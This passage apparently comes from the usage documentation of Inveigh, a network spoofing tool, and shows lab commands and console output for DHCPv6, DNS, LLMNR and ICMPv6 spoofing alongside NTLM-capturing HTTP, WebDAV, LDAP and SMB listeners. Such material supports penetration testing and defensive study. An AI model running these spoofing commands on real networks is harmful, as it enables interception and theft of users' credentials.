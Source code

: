 ```
.\Inveigh.exe -sniffer n
[*] Inveigh 2.0 [Started 2021-06-14T10:48:16 | PID 20368]
[-] Packet Sniffer
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 10.10.2.111 | IPv6 fe80::3d3b:b73c:c43e:ed4e%2]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[-] DHCPv6
[+] DNS Listener [Type A]
[-] ICMPv6
[+] LLMNR Listener [Type A]
[-] MDNS
[-] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[-] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[-] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Listener [Port 445]
[+] File Output [C:\Users\dev\source\repos\InveighZero\Inveigh\bin\Debug\net35]
[+] Previous Session Files [Imported]
[*] Press ESC to enter/exit interactive console
[!] Failed to start SMB listener on port 445, check IP and port usage.
[!] Failed to start SMB listener on port 445, check IP and port usage.
```
Note, with the packet sniffer disabled, Inveigh will attempt to start SMB listeners for IPv4 and IPv6. On most windows systems, port 445 will already be in use. Either ignore error or add `-smb n`.

### <a name="DHCPv6"></a>DHCPv6

Start DHCPv6 spoofer and IPv6 DNS spoofer. Note, DNS is on by default.
```
.\Inveigh.exe -dhcpv6 y
...
[+] DHCPv6 Listener [MAC 52:54:00:FF:B5:53]
[+] DNS Listener [Type A]
...
[+] [23:03:06] DHCPv6 [solicitation] from fe80::bd92:a800:60d0:8deb%2(test-wks1.lab.inveigh.org) [response sent]
[+] [23:03:06] DHCPv6 [fe80::1348:1] advertised to [00:0C:29:F0:6E:16]
[+] [23:03:06] DHCPv6 [request] from fe80::bd92:a800:60d0:8deb%2(test-wks1.lab.inveigh.org) [response sent]
[+] [23:03:06] DHCPv6 [fe80::1348:1] leased to [00:0C:29:F0:6E:16]
```
Start DHCPv6 spoofer and spoof DNS requests for internal domain only.
```
.\Inveigh.exe -dhcpv6 y -replytodomains lab.inveigh.org
...
[+] DHCPv6 Listener [MAC 52:54:00:FF:B5:53]
[+] DNS Listener [Type A]
...
[-] [23:10:30] DNS(A) request [test.inveigh.org] from fe80::6142:1%2 [domain ignored]
[+] [23:10:33] DNS(A) request [wpad.lab.inveigh.org] from fe80::6142:1%2 [response sent]
```
Start DHCPv6 spoofer and also send out ICMPv6 RA packets.  
```
.\Inveigh.exe -dhcpv6 y -icmpv6 y
...
[+] DHCPv6 Listener [MAC 52:54:00:FF:B5:53]
[+] DNS Listener [Type A]
[+] ICMPv6 Router Advertisement [Interval 200 Seconds]
...
[+] [23:12:04] ICMPv6 router advertisment sent to [ff02::1]
```
Start DHCPv6 spoofer and answer requests from the local host.
```
```